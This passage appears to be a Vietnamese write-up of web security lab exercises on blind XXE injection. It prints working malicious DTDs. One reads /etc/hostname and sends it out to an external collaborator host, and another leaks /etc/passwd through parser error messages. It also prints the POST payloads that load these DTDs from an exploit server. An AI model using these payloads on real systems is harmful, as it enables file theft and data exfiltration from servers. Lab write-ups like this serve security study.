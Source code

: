 DTD độc hại của ta khi được tải về sẽ kích hoạt và gửi request kèm theo hostname đến server khác của ta, nhờ đó khai thác được out-of-band attack.

Tham khảo:https://gist.github.com/staaldraad/01415b990939494879b4


**Nội dung DTD** : Lấy hostname rồi gửi đi tới server của ta dưới dạng tham số.

```xml
<!ENTITY % hostname SYSTEM "file:///etc/hostname"> 
<!ENTITY % tmp "<!ENTITY &#x25; oob SYSTEM 'http://dvcw8ek9z2ixfn8gx9o5vpgq3h98xx.oastify.com?res=%hostname;'> " >
%tmp;
%oob;
```

**Nội dung Payload inject vào HTTP Post request**: lấy external entity từ nguồn là DTD ta đã lưu.

```xml
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "https://exploit-0ac2007204e74061c371f586019d0073.exploit-server.net/exploit"> %xxe; ]>
```

Kết quả:
>![](https://i.imgur.com/D4aoMlk.png)

>![](https://i.imgur.com/PZ6xiGx.png)


### Bài 6: Exploiting blind XXE to retrieve data via error messages
>![](https://i.imgur.com/B1DDybW.png)


Mô tả: Chức năng `check stock` bị lỗi XXE nhưng không hiển thị kết quả trả về. Ta cần tìm cách khai thác để trigger error message hiển thị nội dung của file `/etc/passwd`

Cũng như bài trên, file /etc/passwd không có format DTD, ta cần khai thác gián tiếp.

**Đầu tiên tạo một DTD độc hại và lưu nó trên exploit server**: File được gọi đến không tồn tại khiến parser gặp lỗi và hiển thị kèm nội dung /etc/passwd cho ta (dưới dạng error filename)

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///%file;'>">
%eval;
%exfil;
```

**Sau đó inject vào POST payload của `checkstock` để nó truy vấn external DTD** truy vấn và tải về External DTD độc hại mà ta đã viết ở trên
```xml
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "https://exploit-0a59005d03b5d590c7e40746011e0068.exploit-server.net/exploit"> %xxe; ]>
```

Kết quả khi nó cố tìm filename có giá trị là nội dung file `/etc/passwd` sẽ báo ra lỗi như hình dưới.

>![](https://i.imgur.com/xyrBUEL.png)
